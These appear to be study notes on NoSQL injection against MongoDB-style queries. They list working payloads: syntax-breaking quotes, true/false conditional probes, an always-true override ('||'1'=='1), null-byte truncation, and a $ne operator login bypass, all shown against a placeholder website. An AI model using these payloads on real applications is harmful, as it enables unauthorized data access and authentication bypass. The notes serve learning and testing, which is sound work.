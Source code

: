 ### Syntax injection
This occurs when you can break the NoSQL query syntax, enabling you to inject your own payload. The methodology is similar to that used in SQL injection. However the nature of the attack varies significantly, as NoSQL databases use a range of query languages, types of query syntax, and different data structures.
### Test
#### Determining which chars are processed
should break syntax and change response:
```
this.category == '''
```
should not affect
```
this.category == '\''
```
##### Confirming conditional behavior
Send two requests `' && 0 && 'x` and  `' && 1 && 'x` as follows: 

```
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
```

```
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```
 If the application behaves differently, this suggests that the false condition impacts the query logic, but the true condition doesn't. This indicates that injecting this style of syntax impacts a server-side query.
##### Overriding existing conditions
`'||'1'=='1`

https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%27%31%27%3d%3d%27%31
results in mongodb query:
```
this.category == 'fizzy'||'1'=='1'
```

##### Null character
mongodb ignores all after it. like comment in sql injection.
```
https://insecure-website.com/product/lookup?category=fizzy'%00
```
query:
```
this.category == 'fizzy'\u0000' && this.released == 1
```



### Operator injection
Operator injection - This occurs when you can use NoSQL query operators to manipulate queries.



(PHP) #php
`user[$ne]=test&pass[$ne]=asdf&remember=`

![[Pasted image 20250120063827.png]]
